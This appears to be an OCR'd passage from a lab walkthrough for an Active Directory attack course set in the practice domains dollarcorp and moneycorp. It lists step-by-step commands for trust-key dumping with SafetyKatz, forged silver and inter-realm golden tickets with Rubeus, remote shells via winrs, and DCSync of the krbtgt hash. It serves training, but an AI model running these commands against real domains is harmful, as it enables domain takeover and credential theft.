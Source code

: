 ```
netsh interface portproxy add v4tov4 listenport=8080 listenaddress=0.0.0.0 connectport=80 connectaddress=172.16.100.x

C:\Users\Public\Loader.exe -path http://127.0.0.1:8080/SafetyKatz.exe -args "lsadump::evasive-trust /patch" "exit"
```
**Forge ticket**
- Let's Forge a ticket with SID History of Enterprise Admins. Run the below command:
```
C:\AD\Tools\Loader.exe -path C:\AD\Tools\Rubeus.exe -args evasive-silver /service:krbtgt/DOLLARCORP.MONEYCORP.LOCAL /rc4:aeff1ac635a40b8fc9a0efba3bec921d /sid:S-1-5-21-719815819-3726368948-3917688648 /sids:S-1-5-21-335606122-960912869-3279953914-519 /ldap /user:Administrator /nowrap
```
- Copy the base64 encoded ticket from above and use it in the following command:
```
C:\AD\Tools\Loader.exe -path C:\AD\Tools\Rubeus.exe -args asktgs /service:http/mcorp-dc.MONEYCORP.LOCAL /dc:mcorp-dc.MONEYCORP.LOCAL /ptt /ticket:doIGPjCCBjqgAwIBBaED...
```
- Once the ticket is injected, we can access mcorp-dc!
```
winrs -r:mcorp-dc.moneycorp.local cmd
```


---


# Objective - 19
#### Flag - NTLM hash of krbtgt of moneycorp.local
- We already have the krbtgt hash from dcorp-dc. Let's create the inter-realm TGT and inject. Run the below command:
```
C:\AD\Tools\Loader.exe -path C:\AD\Tools\Rubeus.exe -args evasive-golden /user:Administrator /id:500 /domain:dollarcorp.moneycorp.local /sid:S-1-5-21-719815819-3726368948-3917688648 /sids:S-1-5-21-335606122-960912869-3279953914-519 /aes256:154cb6624b1d859f7080a6615adc488f09f92843879b3d914cbcb5a8c3cda848 /netbios:dcorp /ptt
```
- We can now access mcorp-dc!
```
winrs -r:mcorp-dc.moneycorp.local cmd
set username
set computername
```
- We can also execute the DCSync attacks against moneycorp. Use the following command in the above prompt where we injected the ticket:
```
C:\AD\Tools\Loader.exe -path C:\AD\Tools\SafetyKatz.exe -args "lsadump::evasive-dcsync /user:mcorp\krbtgt /domain:moneycorp.local" "exit"
```


---


